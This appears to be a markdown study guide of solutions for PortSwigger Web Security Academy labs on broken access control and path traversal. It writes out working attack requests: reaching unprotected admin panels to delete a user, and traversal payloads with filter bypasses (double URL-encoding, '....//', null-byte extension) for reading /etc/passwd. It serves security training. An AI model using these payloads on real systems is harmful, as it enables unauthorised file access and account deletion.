




# 🔬 Vulnerability Labs

---

## [Access control vulnerabilities](https://portswigger.net/web-security/all-labs#access-control-vulnerabilities)

> 🔗 **Resources**
>
> - 📽️ [Broken Access Control (Long Version) - Rana Khalil](https://www.youtube.com/playlist?list=PLuyTk2_mYISId4_l9YET7Gv29cHcNguq-)

### [Unprotected admin functionality](https://portswigger.net/web-security/access-control/lab-unprotected-admin-functionality)

Find the admin panel and delete the user `carlos`.

```bash
GET /robots.txt

# Response
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 45

User-agent: *
Disallow: /administrator-panel
```



```bash
GET /administrator-panel
```


```bash
GET /administrator-panel/delete?username=carlos
# User deleted
```




### [Unprotected admin functionality with unpredictable URL](https://portswigger.net/web-security/access-control/lab-unprotected-admin-functionality-with-unpredictable-url)

Find the unpredictable admin panel and delete user `carlos`.

```bash
GET /login
```



- Admin panel found in the code of the `/` or `/login` page response for example

```bash
<script>
var isAdmin = false;
if (isAdmin) {
   var topLinksTag = document.getElementsByClassName("top-links")[0];
   var adminPanelTag = document.createElement('a');
   adminPanelTag.setAttribute('href', '/admin-ge6wcp');
   adminPanelTag.innerText = 'Admin panel';
   topLinksTag.append(adminPanelTag);
   var pTag = document.createElement('p');
   pTag.innerText = '|';
   topLinksTag.appendChild(pTag);
}
</script>
```

```bash
GET /admin-ge6wcp
```


```bash
GET /admin-ge6wcp/delete?username=carlos
# User deleted
```


---

## [Path traversal](https://portswigger.net/web-security/all-labs#path-traversal)

> 🔗 **Resources**
>
> - 📽️ [What is Directory Traversal? - Intigriti](https://www.youtube.com/watch?v=17KYOIf5ZbU)
> - 📽️ [Directory Traversal attacks are scary easy - TCM](https://www.youtube.com/watch?v=99yJtmmtrJU)
> - 📽️ [Directory Traversal Playlist- z3nsh3ll](https://www.youtube.com/playlist?list=PLWvfB8dRFqbbO2wRawnn6u8JlfttA74wE)
> - 📽️ [Directory Traversal (Long Version) - Rana Khalil](https://www.youtube.com/playlist?list=PLuyTk2_mYISL2DdD_m1ELEjpiPKxV98MO)

### [Simple case](https://portswigger.net/web-security/file-path-traversal/lab-simple)

Open `BurpSuite` - Turn off the intercept - Open its internal Browser and open the lab link - Check `HTTP history` for intercepted requests - Check `Images` in the Filter settings

- Find a fetched product image Request
  - right click on it and `Send to Repeater`, or select it and press `CTRL+R`
- Change the Request

```bash
# From this
GET /image?filename=5.jpg

# To this
GET /image?filename=../../../etc/passwd
```


### [Traversal sequences blocked with absolute path bypass](https://portswigger.net/web-security/file-path-traversal/lab-absolute-path-bypass)

The app blocks path traversal sequences but treats the filename as relative to a default working directory.

```bash
GET /image?filename=21.jpg

GET /image?filename=../../../etc/passwd # 400 Bad Request

# Try with absolute path
GET /image?filename=/etc/passwd
```


### [Traversal sequences stripped non-recursively](https://portswigger.net/web-security/file-path-traversal/lab-sequences-stripped-non-recursively)

The app strips path traversal sequences from the supplied filename before using it.

```bash
GET /image?filename=....//....//....//etc/passwd
```



### [Traversal sequences stripped with superfluous URL-decode](https://portswigger.net/web-security/file-path-traversal/lab-superfluous-url-decode)

The app blocks input containing path traversal sequences and then performs URL-decode before using it.

- With `../../../etc/passwd` it does not work
- Use BurpSuite **Decoder** to ***double URL-Encode*** the `../../../etc/passwd` string
  - `\` `/` should always be encoded

```bash
..%2f..%2f..%2fetc%2fpasswd # 400 Bad Request - URL-encoded once

# Doubl URL-Encoded
GET /image?filename=..%252f..%252f..%252fetc%252fpasswd
```


### [Validation of start of path](https://portswigger.net/web-security/file-path-traversal/lab-validate-start-of-path)

The application transmits the full file path and validates that it starts with the expected folder.

```bash
GET /image?filename=/var/www/images/../../../etc/passwd
# or (better)
GET /image?filename=%2fvar%2fwww%2fimages%2f..%2f..%2f..%2fetc%2fpasswd
```


### [Validation of file extension with null byte bypass](https://portswigger.net/web-security/file-path-traversal/lab-validate-file-extension-null-byte-bypass)

The app validates the supplied filename end with expected file extension.

- Use a null byte character `\0` to represent the end of the string
  - `../../../etc/passwd\0.png` > `..%2f..%2f..%2fetc%2fpasswd%00.png`
  - the O.S. requests retrieval of the string, it assumes the string is terminated after `passwd`

```bash
GET /image?filename=../../../etc/passwd%00.png
# URL-encoded
GET /image?filename=..%2f..%2f..%2fetc%2fpasswd%00.png
```


---


---

